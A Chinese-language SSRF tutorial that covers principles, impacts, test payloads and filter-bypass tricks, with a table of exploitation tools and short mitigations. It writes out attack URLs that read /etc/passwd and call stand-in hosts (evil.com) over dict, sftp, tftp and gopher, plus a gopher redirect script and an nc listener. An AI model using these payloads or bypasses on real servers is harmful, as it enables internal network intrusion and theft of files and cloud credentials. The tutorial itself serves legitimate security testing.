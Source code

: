 ### 简介

SSRF (Server Side Request Forgery) 

### 原理


```
Attacker --【1】req1-payload-->  Server1(存在SSRF漏洞) ---【2】req2--> Server2
     /\                           |        /\                        \/ 
     |                           \/        |                          | 
     '----<----【4】resp1----<----'        '---<---【3】resp2----<-----' 
```

攻击者通过控制Requset1中的参数值，发送Requset1到存在SSRF漏洞的Server1，以Server1为"跳板"发出Requset2,通常根据判断Response2的情况(内容、响应时间等),来实现探测内网主机(IP/port/service...)等利用方式


造成SSRF的网络环境前提:web服务端所在的服务器能够与其他服务器是网络可达的

造成SSRF的直接原因:web后端没有对http请求传来的"参数"做过滤与限制

触发过程:http请求中带有参数值"URL地址" 传给web后端且后端未严格过滤参数值 根据参数值去获取资源

资源存在形式:图片.png、图标.ico、网页.html、文本.txt

造成SSRF的常见场景: 下载、分享、url跳转...

### 漏洞影响

* 内网
  * 探测内网(IP/port/service...)
    * ip 探测内网存活主机
    * service 端口开放情况 如数据库类的服务
    * Cloud Instances 如果含有SSRF漏洞的Web应用运行在云实例 可以尝试获取云服务商提供的让内部主机查询自身的元数据
      * AWS(Aws keys, ssh keys and [more](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978))
      * Google Cloud
  * 攻击内网其他主机
    * 高危漏洞(SQLi、Struts2...)
  * 读取文件
    * 类型1 支持了URL Schema(file等协议)
      * 实例 `/click.jsp?url=http://127.0.0.1:8082/config/dbconfig.xml` [21CN某站SSRF(可读取本地数据库配置文件、探测内网)](https://www.secpulse.com/archives/29452.html)
    * 类型2
      * ImageMagick CVE-2016-3718
      * discuz x2.5/x3.0/x3.1/x3.2 SSRF漏洞
      * Ffmpeg文件读取漏洞 CVE-2016-1897  CVE-2016-1898
        * 实例 [新浪微盘存在Ffmpeg文件读取漏洞-SSRF](https://www.secpulse.com/archives/49510.html)
        * 解析 [FFmpeg任意文件读取漏洞分析 - 知乎](https://zhuanlan.zhihu.com/p/28255225)
* 外网
  * 对外发起请求(攻击其他网站等恶意行为)

### 测试方法

* URL Schema
  * `file://` `http://example.com/ssrf.php?url=file:///etc/passwd`
  * `dict://` `http://example.com/ssrf.php?dict://evil.com:1337/`
  * `sftp://` `http://example.com/ssrf.php?url=sftp://evil.com:1337/`
  * `ldap://` 轻量级目录访问协议
    * `http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit`
  * `tftp://` TFTP（Trivial File Transfer Protocol,简单文件传输协议
    * `http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET`
  * `gopher://` Gopher是一种分布式文档传递服务
    * `http://example.com/ssrf.php?url=http://attacker.com/gopher.php`
    
### 测试方法 - 以gopher为例


gopher.php (host it on acttacker.com):
```
<?php
  header('Location: gopher://evil.com:1337/_Hi%0Assrf');
?>
```
同时监听到信息
```
evil.com:# nc -lvp 1337
Hi
ssrf
```

[SSRF Tips](http://blog.safebuff.com/2016/07/03/SSRF-Tips/) `SSRF PHP function` `SFTP Dict gopher TFTP file ldap`


### 绕过技巧
  * 使用@绕过不严谨的过滤 `a.com@10.10.10.10` `a.com:b@10.10.10.10`
  * IP地址变形 - 进制转换 `127.0.0.1 => 2130706433`
  * 域名解析 `10.100.21.7 => http://10.100.21.7.xip.io 或 http://www.10.100.21.7.xip.name`[有道翻译SSRF修复不完整再通内网](https://www.secpulse.com/archives/50153.html)
  * 短网址跳转到内网地址 `http://10.10.116.11 => http://t.cn/RwbLKDx`[有道翻译SSRF修复不完整再通内网](https://www.secpulse.com/archives/50153.html)
  * JS跳转
  * 以下工具

SSRF测试工具/利用工具

|名称|属性|描述|
|:-------------:|--|-----|
|[cujanovic/SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)|python|生成不同形式的SSRF payload (IP obfuscator ...)|
|[D4Vinci/Cuteit(IP obfuscator)](https://github.com/D4Vinci/Cuteit)|python2|IP obfuscator 将恶意IP改为各种格式以绕过安全检测|
|[samhaxr/XXRF-Shots](https://github.com/samhaxr/XXRF-Shots)|node.js|生成payload 发送众多请求 并使用phantomJS实现网页截图|
|[swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)|python3|Automatic SSRF fuzzer and exploitation(RCE...) tool|
|[tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)|python2|生成gopher link 以利用SSRF实现RCE. This tool generates gopher link for exploiting SSRF and gaining RCE in various servers |

### 修复方式

* 禁用协议 - 仅允许必要的协议 如http和https
* 严格限制参数值(限制)
